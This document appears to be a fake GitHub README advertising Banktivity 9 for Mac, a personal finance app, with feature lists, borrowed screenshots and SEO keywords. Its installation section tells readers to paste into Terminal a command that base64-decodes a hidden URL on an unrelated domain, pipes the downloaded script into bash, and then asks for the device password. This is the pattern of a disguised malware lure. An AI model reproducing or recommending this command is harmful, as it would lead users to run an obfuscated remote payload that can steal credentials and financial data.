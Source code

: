 # 🏦 Banktivity 9 for Mac — Smart Personal Finance with Full Privacy

📌 About Banktivity 9  
Banktivity 9 is a modern personal finance manager built exclusively for macOS users who want clarity, control, and privacy in their financial life.  
It supports automatic bank connections, manual entry, detailed budgeting, scheduled transactions, and powerful investment tracking — all with a flexible and highly customizable dashboard.  
Designed with privacy in mind, Banktivity allows you to store all financial data locally, or sync across Apple devices via end-to-end encrypted iCloud. Whether you’re managing a household, tracking multiple accounts, or planning for retirement, it delivers the tools you need in a beautifully native macOS interface.  
No ads, no trackers, just fast and secure personal finance on your terms.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
 ```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
 ``` 
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.iggsoftware.com/blog/wp-content/uploads/2023/09/BanktivityScreenshot9-1-1024x594.jpg)  
- ![](https://www.banktivity.com/content/assets/images/screenshots/ipad/ipad-budget-light@2x.png)  

## 🎯 Key Features  
⚡️ Smart Budgeting: Create envelope budgets, forecasts, and monthly plans.  
🔒 Local + Encrypted iCloud Sync: Choose full offline mode or secure syncing.  
⚙️ Investment Tracker: Monitor portfolios, gains/losses, and performance.  
🚀 Native Speed: Optimized for Apple Silicon with smooth UI transitions.  
🎨 Custom Dashboards: Tailor the interface to your financial priorities.  
📊 Multi-Account Support: Handle personal, shared, and business finances in one place.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`banktivity 9 mac` · `mac personal finance manager` · `mac budgeting app` · `mac investment tracker` · `mac local finance software` · `icloud sync finance app` · `mac envelope budgeting` · `banktivity offline mode` · `macos portfolio tool` · `scheduled transactions mac` · `mac checkbook software` · `multi-account finance mac` · `mac net worth tracking` · `mac money dashboard` · `apple silicon finance app`
